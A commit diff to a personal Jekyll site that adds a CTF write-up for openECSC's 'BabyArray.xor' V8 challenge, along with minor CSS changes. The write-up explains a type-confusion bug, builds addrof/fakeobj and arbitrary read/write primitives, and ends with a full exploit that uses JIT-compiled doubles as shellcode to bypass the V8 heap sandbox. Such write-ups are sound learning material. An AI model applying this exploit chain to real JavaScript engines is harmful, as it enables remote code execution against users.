

Before and after one commit to MatusMandzak/matusmandzak.github.io, a Jekyll site: the page built from posts.md, in a window 1280 px wide. Shown: the whole page, without its empty margins (319-959 px from the left). Built offline with Jekyll 4.4.1, drawn with Linux system fonts in a browser that asks for light colours; before the commit the page ends 966 px from its top, so only the background shows below that; some of the changed lines change nothing that is shown.

Commit message:
baby.xor writeup, added cv

````diff
--- /dev/null
+++ b/_posts/2024-08-02-baby-xor.markdown
@@ -0,0 +1,298 @@
+---
+layout: posts
+title:  "openECSC - BabyArray.xor"
+date:   2024-08-02 02:00:00 +0200
+---
+*Challenge to get familiar with V8 internals*
+
+Even though I do not have much experience with V8 challenges and pwn up until this point, I spent last week learning about v8 exploits and I wanted to try to tackle this challenge from openECSC. For the info I did not manage to solve it by myself at first, because I was struggling to get my wasm code to work properly, so I had to look up how others bypassed the problems I encountered, which I will explain later.
+
+From what I currently know, v8 exploits are usually multistage. The first thing needed to achieve is some kind of memory corruption/type confusion, after that the most common approach is to get addrof and fakeobj primitives, which are somehow equivalent to "arbitrary" read and creating fake objects at arbitrary places. These two are further utilized to get "arbitrary" reads and writes and eventually code execution. (Note "" around arbitrary, on recent V8 versions there is mitigation in place which prevent arbitrary reads, but we will get into that)
+
+## New functionality?
+The challenge introduces new method which can be applied on Array objects.
+```js
++/*
++  Array.xor()
++
++  let x = [0.1, 0.2, 0.3];
++  x.xor(5);
++*/
++BUILTIN(ArrayXor) {
++  HandleScope scope(isolate);
++  Factory *factory = isolate->factory();
++  Handle<Object> receiver = args.receiver();
++
++  if (!IsJSArray(*receiver) || !HasOnlySimpleReceiverElements(isolate, JSArray::cast(*receiver))) {
++    THROW_NEW_ERROR_RETURN_FAILURE(isolate, NewTypeError(MessageTemplate::kPlaceholderOnly,
++      factory->NewStringFromAsciiChecked("Nope")));
++  }
++
++  Handle<JSArray> array = Handle<JSArray>::cast(receiver);
++  ElementsKind kind = array->GetElementsKind();
++
++  if (kind != PACKED_DOUBLE_ELEMENTS) {
++    THROW_NEW_ERROR_RETURN_FAILURE(isolate, NewTypeError(MessageTemplate::kPlaceholderOnly,
++      factory->NewStringFromAsciiChecked("Array.xor needs array of double numbers")));
++  }
++
++  // Array.xor() needs exactly 1 argument
++  if (args.length() != 2) {
++    THROW_NEW_ERROR_RETURN_FAILURE(isolate, NewTypeError(MessageTemplate::kPlaceholderOnly,
++      factory->NewStringFromAsciiChecked("Array.xor needs exactly one argument")));
++  }
++
++  // Get array len
++  uint32_t length = static_cast<uint32_t>(Object::Number(array->length()));
++
++  // Get xor value
++  Handle<Object> xor_val_obj;
++  ASSIGN_RETURN_FAILURE_ON_EXCEPTION(isolate, xor_val_obj, Object::ToNumber(isolate, args.at(1)));
++  uint64_t xor_val = static_cast<uint64_t>(Object::Number(*xor_val_obj));
++
++  // Ah yes, xoring doubles..
++  Handle<FixedDoubleArray> elements(FixedDoubleArray::cast(array->elements()), isolate);
++  FOR_WITH_HANDLE_SCOPE(isolate, uint32_t, i = 0, i, i < length, i++, {
++    double x = elements->get_scalar(i);
++    uint64_t result = (*(uint64_t*)&x) ^ xor_val;
++    elements->set(i, *(double*)&result);
++  });
++
++  return ReadOnlyRoots(isolate).undefined_value();
++}
++
+```
+This patch introduces new .xor() prototype, that can be used to xor all values in array of doubles.
+
+Looking at the patch we can see it makes sure that all elements of the array are `PACKED_DOUBLE_ELEMENTS`, as well as the check whether the array is indeed an array and `HASONLYSIMPLERECEIVERELEMENTS`, which according to chromium source code "Checks that we have no accessors on the receiver's elements. ".
+
+Overall the new functionality seems to be vulnerability proof or is it?
+If we take a look it does not check anything regarding the argument which gets passed into the function. All it does is to cast it to ToNumber and this happens after all checks regarding our array.
+
+```
+d8> arr = [1.1, 1.2, 1.3]
+[1.1, 1.2, 1.3]
+d8> bad = {valueOf: () => {arr[0] = {}; return 1;}}
+{valueOf: () => {arr[0] = {}; return 1;}}
+d8> arr.xor(bad)
+undefined
+d8> arr
+[141920, 1.2, 141944]
+```
+
+Woah v8 returned integer value rather than float, what happened?
+Using `./d8 --allow-natives-syntax` we can use debug statements to get more information about what happened.
+
+Let's try to use debug print on original array.
+```
+d8> arr = [1.1, 1.2, 1.3]
+[1.1, 1.2, 1.3]
+d8> %DebugPrint(arr)
+DebugPrint: 0xf3e00042be9: [JSArray]
+ - map: 0x0f3e001cb7c5 <Map[16](PACKED_DOUBLE_ELEMENTS)> [FastProperties]
+ - prototype: 0x0f3e001cb11d <JSArray[0]>
+ - elements: 0x0f3e00042bc9 <FixedDoubleArray[3]> [PACKED_DOUBLE_ELEMENTS]
+ - length: 3
+ - properties: 0x0f3e00000725 <FixedArray[0]>
+ - All own properties (excluding elements): {
+    0xf3e00000d99: [String] in ReadOnlySpace: #length: 0x0f3e00025f85 <AccessorInfo name= 0x0f3e00000d99 <String[6]: #length>, data= 0x0f3e00000069 <undefined>> (const accessor descriptor, attrs: [W__]), location: descriptor
+ }
+ - elements: 0x0f3e00042bc9 <FixedDoubleArray[3]> {
+           0: 1.1
+           1: 1.2
+           2: 1.3
+ }
+0xf3e001cb7c5: [Map] in OldSpace
+ - map: 0x0f3e001c01b5 <MetaMap (0x0f3e001c0205 <NativeContext[295]>)>
+ - type: JS_ARRAY_TYPE
+ - instance size: 16
+ - inobject properties: 0
+ - unused property fields: 0
+ - elements kind: PACKED_DOUBLE_ELEMENTS
+ - enum length: invalid
+ - back pointer: 0x0f3e001cb785 <Map[16](HOLEY_SMI_ELEMENTS)>
+ - prototype_validity cell: 0x0f3e00000a89 <Cell value= 1>
+ - instance descriptors #1: 0x0f3e001cb751 <DescriptorArray[1]>
+ - transitions #1: 0x0f3e001cb7ed <TransitionArray[4]>
+   Transition array #1:
+     0x0f3e00000e5d <Symbol: (elements_transition_symbol)>: (transition to HOLEY_DOUBLE_ELEMENTS) -> 0x0f3e001cb805 <Map[16](HOLEY_DOUBLE_ELEMENTS)>
+ - prototype: 0x0f3e001cb11d <JSArray[0]>
+ - constructor: 0x0f3e001cae09 <JSFunction Array (sfi = 0xf3e0002b2f9)>
+ - dependent code: 0x0f3e00000735 <Other heap object (WEAK_ARRAY_LIST_TYPE)>
+ - construction counter: 0
+
+[1.1, 1.2, 1.3]
+```
+I am not going to explain the whole output, important thing to notice is the type of array = `PACKED_DOUBLE_ELEMENTS`. This map object helps v8 to differentiante between different types of arrays in memory.
+
+Let's try to corrupt memory and see what happens.
+```
+d8> bad = {valueOf: () => {arr[0] = {}; return 1;}}
+{valueOf: () => {arr[0] = {}; return 1;}}
+d8> arr.xor(bad)
+undefined
+d8> %DebugPrint(arr)
+DebugPrint: 0xf3e00042be9: [JSArray]
+ - map: 0x0f3e001cb845 <Map[16](PACKED_ELEMENTS)> [FastProperties]
+ - prototype: 0x0f3e001cb11d <JSArray[0]>
+ - elements: 0x0f3e00044e21 <FixedArray[3]> [PACKED_ELEMENTS]
+ - length: 3
+ - properties: 0x0f3e00000725 <FixedArray[0]>
+ - All own properties (excluding elements): {
+    0xf3e00000d99: [String] in ReadOnlySpace: #length: 0x0f3e00025f85 <AccessorInfo name= 0x0f3e00000d99 <String[6]: #length>, data= 0x0f3e00000069 <undefined>> (const accessor descriptor, attrs: [W__]), location: descriptor
+ }
+ - elements: 0x0f3e00044e21 <FixedArray[3]> {
+           0: 141058
+           1: 0x0f3e00044e41 <HeapNumber 1.2>
+           2: 141082
+ }
+
+ ...
+```
+
+Here we are getting `PACKED_ELEMENTS` instead of `PACKED_DOUBLE_ELEMENTS`. This is an indicator that we managed to corrupt the array to not be array of doubles. Important thing to note here is what is currently at arr[0]. If we take a look at our "bad" code we can see we set it to an object, meaning v8 firstly changed to array type to `PACKED_ELEMENTS` to be able to store different types rather than just double. After that xor functionality ran so it xorred the value with 1.
+
+## Getting addrof and fakeobj
+Given these properties, we can set arr[0] to point to some existing object to write a pointer in arr[0], which we can then read. This will provide us with `addrof` primitives, because we will be able to read ptr to any object.
+
+Other than that I gathered helper functions from other writeups to help with debugging and type casting:
+```js
+const buffer = new ArrayBuffer(8);
+const floatBuffer = new Float64Array(buffer);
+const int64Buffer = new BigUint64Array(buffer);
+function i2f(i) {int64Buffer[0] = i; return floatBuffer[0];};
+function f2i(f) {floatBuffer[0] = f; return int64Buffer[0];};
+function hex32(i) {return "0x" + i.toString(16).padStart(8, 0);};
+function hex64(i) {return "0x" + i.toString(16).padStart(16, 0);};
+```
+
+Let's craft the addrof primitive:
+```js
+function addrof(obj) {
+    var arr = [13.37];
+    arr.xor({
+        valueOf: function() {
+            arr[0] = {};
+            arr[0] = obj;
+            return 1;
+        }
+    });
+    return (arr[0] << 1) | 1;
+};
+```
+
+If you don't have any experience with v8 you may be asking why am I shifting value by one bit and adding 1 to the end. This is because of tagged pointers. In PACKED_ELEMENTS array everything ending ending with LSB set gets interpreted as a pointer. To make sure this works properly all other values like SMI (small integers) needs to be shifted by 1 even though they may be ending with 0. When reading value, this will get automatically reversed so to get correct ptr as it is written on the v8 heap we need to do this.
+
+If you are trying to go through my writeup till this point you are definitely wondering why are we still getting only 32 bit addresses and not 64bits? Of course there is nothing at `0x00000000xxxxxxx1`. This is what V8 calls POINTER COMPRESSION. Given that v8 assumes everything is happening inside of v8's heap (except JITted code where it gets really complicated) it does not need to store the first 4 bytes of the address - it is useless to store, because it is the same everytime. Therefore address like 0x00002f2741414141 gets compressed to 0x41414141 while being stored on heap.
+
+Having a valid ptr now we will be able to utilize fakeobj primitive which we can craft aswell.
+```js
+function fakeobj(ptr) {
+    var arr = [13.37];
+    arr.xor({
+        valueOf: function() {
+            arr[0] = {};
+            arr[0] = (ptr >> 0x1);
+            return 1;
+        }
+    });
+    return arr[0];
+}
+```
+
+## Arbitrary r/w? Not so fast!
+Exploiting using addrof and fakeobj used to be pretty straightforward. From these two you could achieve arbitrary reads/writes pretty easily. After getting arb r/w primitives v8 exploitation went as follows:
+1. try to allocate rwx page
+2. write shellcode to rwx page
+3. jump to shellcode
+
+However over the course of multiple years exploitation got harder with more mitigations in place. For example, at first you could allocate rwx just by JIT compiling a function. This was later mitigated by alternating permissions on allocated page between rw- and r-x.
+Smarter people later discovered that you can compile wasm compiled code page to create rwx pages.
+After that came another mitigation - V8 Heap Sandbox, which basically made sure that all external pointers are converted to indexes of a lookup table. [Here](https://docs.google.com/document/d/1FM4fQmIhEqPG8uGp5o9A-mnPB5BOeScZYpkHjo0KKA8) is the detail of the sandbox.
+
+To break this mitigation we can use JIT internal logic that writes floats to rwx page during compilation. Therefore we can write shellcode to rwx pages using simple function with double and then jump to it. There is an slight problem, because compiled doubles are not contigous, however this can still be bypassed by using relative jmps at the end of each block = "double".
+
+Here is pretty good writeup explaining the topic: [Breaking v8 heap sandbox](https://mem2019.github.io/jekyll/update/2022/02/06/DiceCTF-Memory-Hole.html)
+
+Note: After looking at writeups from others, they were using old technique without heap sandbox just by creating wasm page and writing to it. However I wasn't able to replicate their exploit using their code. What could have happened is that the docker image changed or ran on different CPU that had some mitigation enable.
+
+## Voilà
+After few hours of trying to bypass the sandbox I got a flag and I was so happy and tired.
+Here is my full code:
+```js
+const buffer = new ArrayBuffer(8);
+const floatBuffer = new Float64Array(buffer);
+const int64Buffer = new BigUint64Array(buffer);
+
+function i2f(i) {
+    int64Buffer[0] = i;
+    return floatBuffer[0];
+};
+
+function f2i(f) {
+    floatBuffer[0] = f;
+    return int64Buffer[0];
+};
+
+function hex32(i) {
+    return "0x" + i.toString(16).padStart(8, 0);
+};
+
+function hex64(i) {
+    return "0x" + i.toString(16).padStart(16, 0);
+};
+
+function obj2ptr(obj) {
+    var arr = [13.37];
+    arr.xor({
+        valueOf: function() {
+            arr[0] = {};
+            arr[0] = obj;
+            return 1
+        }
+    });
+    return (arr[0] << 1) | 1;
+};
+
+function ptr2obj(ptr) {
+    var arr = [13.37];
+    arr.xor({
+        valueOf: function() {
+            arr[0] = {};
+            arr[0] = (ptr >> 0x1);
+            return 1;
+        }
+    });
+    return arr[0];
+}
+
+function read(addr) {
+    const readArr = [1.1, 2.2];
+    readArr[0] = i2f(0x00000725001cb7c5n);
+    readArr[1] = i2f(0x0000000200000000n + BigInt(addr) - 0x8n);
+    return f2i(ptr2obj(obj2ptr(readArr) - 0x10)[0]);
+}
+
+function write(addr, data) {
+    const writeArr = [1.1, 2.2];
+    writeArr[0] = i2f(0x00000725001cb7c5n);
+    writeArr[1] = i2f(0x0000000200000000n + BigInt(addr) - 0x8n);
+    const fakeArr = ptr2obj(obj2ptr(writeArr) - 0x10);
+    fakeArr[0] = i2f(data);
+}
+
+function shellcode() {
+    return [1.9711828979523134e-246, 1.9562205631094693e-246, 1.9557819155246427e-246, 1.9711824228871598e-246, 1.971182639857203e-246, 1.9711829003383248e-246, 1.9895153920223886e-246, 1.971182898881177e-246]
+};
+for (let i = 0; i < 10000; i++) shellcode();
+
+const funcAddr = obj2ptr(shellcode);
+const codeAddr = read(funcAddr + 0x8) >> 32n;
+const instructionStart = codeAddr + 0x14n;
+write(instructionStart, read(instructionStart) + 0x7fn);
+shellcode();
+```
+
+Note2: Original writeup from the author used the same technique of storing doubles on rwx page, but he used wasm code to do so.
+
+Overall this wasn't extremely hard challenge, but it was really fun to tackle with.
--- a/assets/css/blog.scss
+++ b/assets/css/blog.scss
@@ -1,10 +1,19 @@
 ---
 ---
 @import "base";
+
+h1, h2, h3, h4, h5, h6 {
+    margin-bottom: 1rem;
+    margin-top: 1rem;
+}
 p {
     line-height: 1.5;
     margin-top: 1rem;
     margin-bottom: 1rem;
+}
+p a {
+    text-decoration: underline;
+    font-weight: bold;
 }
 code{
     background-color: $colorBlue;
````
Also changed, not shown: 8 other files.
